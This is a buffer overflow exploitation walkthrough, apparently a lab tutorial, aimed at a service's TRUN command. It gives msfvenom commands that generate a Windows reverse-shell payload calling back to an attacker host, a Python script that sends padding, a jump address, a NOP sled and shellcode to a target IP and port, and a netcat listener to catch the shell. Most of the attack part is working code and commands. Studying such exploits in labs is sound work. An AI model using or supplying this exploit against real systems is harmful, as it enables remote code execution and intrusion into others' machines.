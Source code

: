 #### Kali Linux:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<Kali-IP> LPORT=<Kali-Port#> EXITFUNC=thread -f c -a x86 -b “\x00”

1. -p: payload; create a windows reverse shell
2. LHOST=<Kali IP>; Listening Host
3. LPORT=<Kali Port#>; 
4. EXITFUNC=thread
5. -f: for file type; creating a C program 
6. -a: architecture; creating for 32bit (x86)
7. -b: for bad character; add in any characters you would like to exclude. 
```
**Note: I had to change the command a little to get it to work for me, which is the command you see below.**
```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.16 LPORT=4444 EXITFUNC=thread -f c -b '\x00'
```

This will out put the shellcode we need to add to our python script. Take note of the payload size incase it is to big for our uses if doing lots of exploit development. 

create python script bof.py
```
#!/usr/bin/python

import sys, socket

overflow = ("")         # copy over the shell code from msfvenom

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow      # fill memory with 2003 A's, add jump instruction, add nop padding, add shellcode to run 

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```

open a terminal and run NetCat listen for the reverse shell. 

```
# nc -nvlp <port#> 
listening on [any] 4444 …
```
